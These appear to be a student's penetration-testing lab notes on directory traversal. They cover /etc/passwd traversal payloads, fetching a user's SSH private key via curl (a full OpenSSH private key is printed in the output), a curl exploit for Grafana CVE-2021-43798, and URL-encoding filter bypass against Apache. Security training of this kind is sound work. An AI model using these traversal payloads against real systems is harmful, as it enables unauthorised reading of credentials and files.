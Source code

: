 ### Absolute vs Relative Paths

# generic attack vector
## find vector

check every link and if possible also source code
get to know what technology is used
```
https://example.com/cms/login.php?language=en.html
```
above link means en.html is exist in cms directory
## try to do following thing
```
?page=../../../../../../../../../etc/passwd
```

![[Pasted image 20240423162238.png]]

### now we can check which users are available

> [!NOTE]
> Directory traversal vulnerabilities are mostly used for gathering information
> it might be possible that we have read access for displayed user

## this is worth try!
```
http://mountaindesserts.com/meteor/index.php?page=../../../../../../../../../home/offsec/.ssh/id_rsa


?page=../../../../../../../../../home/offsec/.ssh/id_rsa
```

![[Pasted image 20240423162519.png]]


VOILA!!

### but we should read it by curl or burp as it maybe beautify in browser

```
curl http://mountaindesserts.com/meteor/index.php?page=../../../../../../../../../home/offsec/.ssh/id_rsa

<!DOCTYPE html>
<html>
    <head>

<SNIP>

</div>

<a href="index.php?page=admin.php"><p style="text-align:center">Admin</p></a>
-----BEGIN OPENSSH PRIVATE KEY-----
b3BlbnNzaC1rZXktdjEAAAAABG5vbmUAAAAEbm9uZQAAAAAAAAABAAABlwAAAAdzc2gtcn
NhAAAAAwEAAQAAAYEAz+pEKI1OmULVSs8ojO/sZseiv3zf2dbH6LSyYuj3AHkcxIND7UTw
XdUTtUeeJhbTC0h5S2TWFJ3OGB0zjCqsEI16ZHsaKI9k2CfNmpl0siekm9aQGxASpTiYOs
KCZOFoPU6kBkKyEhfjB82Ea1VoAvx4J4z7sNx1+wydQ/Kf7dawd95QjBuqLH9kQIEjkOGf
BemTOAyCdTBxzUhDz1siP9uyofquA5vhmMXWyy68pLKXpiQqTF+foGQGG90MBXS5hwskYg
UKJySQYqNFYTn3v1QUpM/ITPx3FWqSLmu0qoqSZmJT8CRqOqC/1E+H6nfnFEXCEB5Yft5/
vwp11229VWfCqjVw1JHNF1NOY264chYCKIS7WRUIdamOFSm2rGubd9HkJAg0v0Cbm7Aq5T
s3yNOfES3iOAISFy+W6/oXC09Ckk2/zEZCbdyKccIp4WOuSzM+ruCgLwR+iFphBObVXaRJ
uiVH/S7JTGJqYLvc7uL2xr+jwu3FYb8me8gQCnmZAAAFiLDH5F6wx+ReAAAAB3NzaC1yc2
EAAAGBAM/qRCiNTplC1UrPKIzv7GbHor9839nWx+i0smLo9wB5HMSDQ+1E8F3VE7VHniYW
0wtIeUtk1hSdzhgdM4wqrBCNemR7GiiPZNgnzZqZdLInpJvWkBsQEqU4mDrCgmThaD1OpA
ZCshIX4wfNhGtVaAL8eCeM+7DcdfsMnUPyn+3WsHfeUIwbqix/ZECBI5DhnwXpkzgMgnUw
cc1IQ89bIj/bsqH6rgOb4ZjF1ssuvKSyl6YkKkxfn6BkBhvdDAV0uYcLJGIFCickkGKjRW
E5979UFKTPyEz8dxVqki5rtKqKkmZiU/Akajqgv9RPh+p35xRFwhAeWH7ef78KdddtvVVn
wqo1cNSRzRdTTmNuuHIWAiiEu1kVCHWpjhUptqxrm3fR5CQINL9Am5uwKuU7N8jTnxEt4j
gCEhcvluv6FwtPQpJNv8xGQm3cinHCKeFjrkszPq7goC8EfohaYQTm1V2kSbolR/0uyUxi
amC73O7i9sa/o8LtxWG/JnvIEAp5mQAAAAMBAAEAAAGBAJ86664e4lYP0Cf11TlyuZrRQ3
vhV9KOYhV+5atIfXpYRsbdPNVm2asS93/69Ex5aHGYtIQgGrA5VtAy9Ppg59vZbiWr/ZGY
mAPPH/BJnAygvbk3rq97NLxiRnuh4Zj+5AUnyAifZZ7julSMeeB1zS2USzUHDO8bOCPnOj
4Cf6b3p7h1gzx6J27itVWNUT6w/Efb5YqkUfkL++vab0xLoERFrl3NDR3ocPK+eUysY37C
488ynU5WYXrFf8QxGvbGt7ntnBhUT4uTaiNK7whXaAhfqzpTyuKvlkmWumcKzRJKvBYP63
wGy2NihBJoY+jD8ZvLXEDwBXVrdgvdutIPORZcFS3sb5XDU1yTs/+iSHOnRhXmZG6p0v5u
KeD637wgU8Mp9lsWbNyQF0FPinIaj1Jf5LZ0nxODFiZN0EUaaT2ihyOsFwxGR9JK0nDKhK
Puq1x9stwKGAhLbTn0Hd6ZDkbONBhtajvX3VJ0DOjiHht4H7LEV5zvk60iiH/6mM83AQAA
AMEApFepwCJdUtlYZr7J8vumuXerNynUf7wLywKGr1o9bzIJQtUFjYn6FObn5rdBDp/9+t
qi3F+WEKwRlLelPR7H6EZLKG7EpDjLbMFA1y2p2qNHVWeOVa5CQ+VuD6uc7vSvfwgPysqT
vAth1IhrkKRuAaT0HuGY80coNxOr7tID9F0b0GuRCuEtCWE/+O5434mW/DvVHkdrnhgG1S
fc/+OdpGNYtLxvTqBql0CVInGBTatqvtYtj43Vr5VfZWL+tKGOAAAAwQDvXu2fi1Fb9fID
1bDU+7mJ9r2XXIIqioCyp42LKIh4VZeYX8SlD3H6X1clZ3XwdGymxznfIZJO/0d964BDmA
fKme7iyscVx0NDMhYHkaLWr7X3RYdp2d9WylKt3bOaMDyDnINIbmt9FVBDkmFDoK+GMUvW
mEtAhw1cUhuVVsvXTXYsMC2cn6YPPpEMXTzpsU+q0LUGSmG/XaaK9gjQOTFIY6tgC33IPO
lpWPWFQro9wzJ/uJsw/lepsqjrg2UvtrkAAADBAN5b6pbAdNmsQYmOIh8XALkNHwSusaK8
bM225OyFIxS+BLieT7iByDK4HwBmdExod29fFPwG/6mXUL2Dcjb6zKJl7AGiyqm5+0Ju5e
hDmrXeGZGg/5unGXiNtsoTJIfVjhM55Q7OUQ9NSklONUOgaTa6dyUYGqaynvUVJ/XxpBrb
iRdp0z8X8E5NZxhHnarkQE2ZHyVTSf89NudDoXiWQXcadkyrIXxLofHPrQzPck2HvWhZVA
+2iMijw3FvY/Fp4QAAAA1vZmZzZWNAb2Zmc2VjAQIDBA==
-----END OPENSSH PRIVATE KEY-----
```


# attacking grafana

### Grafana on port 3000

## Q.
**The target VM #2 runs Grafana on port 3000. The service is vulnerable to CVE-2021-43798, which is a directory traversal vulnerability. Search for "golangexample cve-2021-43798" in a search engine to get familiar with how the vulnerability can be exploited. Use curl and the --path-as-is parameter to find the flag in C:\Users\install.txt.**

## v8.0.1 grafana exploit

```
sudo curl --path-as-is http://grafna:3000/public/plugins/alertlist/../../../../../../../../../../Users/install.txt
```

### 50581.py exploit

![[Pasted image 20240423163337.png]]

# URL encoding

> [!NOTE]
> Generally, URL encoding is used to convert characters of a web request into a format that can be transmitted over the internet. However, it is also a popular method used for malicious purposes. The reason for this is that the encoded representation of characters in a request may be missed by filters, which only check for the plain-text representation of them e.g. ../ but not %2e%2e/. After the request passes the filter, the web application or server interprets the encoded characters as a valid request.

## Apache 2.4.49.1 have vulnerability which can be exploited by using a relative path after specifying the cgi-bin directory in the URL

![[Pasted image 20240423164522.png]]

![[Pasted image 20240423164243.png]]

dot (.) encode to %2e


